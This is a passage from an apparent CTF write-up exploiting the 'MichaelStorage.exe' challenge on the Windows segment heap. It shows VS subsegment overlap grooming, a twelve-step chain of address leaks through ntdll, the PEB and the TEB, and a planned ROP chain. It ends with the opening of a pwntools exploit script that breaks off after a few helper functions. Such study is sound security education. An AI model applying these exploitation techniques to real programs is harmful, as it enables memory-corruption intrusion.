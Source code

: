 ```
              [BUSY 0][BUSY 2][  BUSY 4   ]
                      [BUSY 1]
                              [FREE 2 (VS)]
                                           [BUSY 3]
                                                   [FREE 0]

6. Allocate another VS subsegment, that uses the previous VS subsegment block.
    Page 0x00 ---------------------------------------------> Page 0xff
              [BUSY 0][BUSY 2][  BUSY 4   ]
                      [BUSY 1]
                              [BUSY 5 (VS)]
                                           [BUSY 3]
                                                   [FREE 0]
```

We now have the primitive to overlap a type 2 storage and a type 3 string (BUSY 4 and BUSY 5 above). We can begin the final stages of exploitation. This is where we were up to by the end of the CTF.

### Leaks
As described in the plan, we can use a LSB overwrite of our type 3 string pointer to start a chain of leaks. Specifically the leaks are as follows:
1. Leak heap address of string.
2. Calculate the `_HEAP_PAGE_SEGMENT` address. Remembering each backend segment manages 1 MB of memory, ronding to the nearest 1 MB boundary gives us the _HEAP_PAGE_SEGMENT.
3. Leak `&(_HEAP_SEG_CONTEXT->SegmentListHead)`. This is stored in `_HEAP_PAGE_SEGMENT->ListEntry`.
4. Leak an ntdll address. This was found at `_HEAP_SEG_CONTEXT->LfhContext->AffinityModArray`.
5. Calculate ntdll base adddress. Simple subtraction based on the leaked addresses offset into the module.
6. Leak `ntdll!PebLdr->InMemoryOrderModuleList`, which gives information about each module loaded into the process, such as where it is mapped.
7. Leak base address of MichaelStorage.exe.
8. Leak `kernel32!ReadFile` using MichaelStorage.exe's external references.
9. Leak the `PEB` through ntdll.
10. Calculate the `TEB`, which is a page after the `PEB`.
11. Leak the `StackBase` stored in the `TEB`.
12. Calculate the return address we want to overwrite. In this case we will overwrite the return address of `ReadFile`, which is the function that corrupts the stack itself.


### ROP
Since we have the address of kernel32, a simple CreateFile() + ReadFile() ROP chain can be used to store the flag in a type 3 string. We can then return back to normal execution of the program and fetch the flag.

## Completed Exploit
```python
#!/usr/bin/env python3

from pwn import *
import sys

def allocate(p, type, size):
    p.recvuntil(":")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(type))
    p.recvuntil(":")
    p.sendline(str(size))

def set_value(p, storage_index, data_index, value):
    p.recvuntil(":")
    p.sendline("2")
    p.recvuntil(":")
```
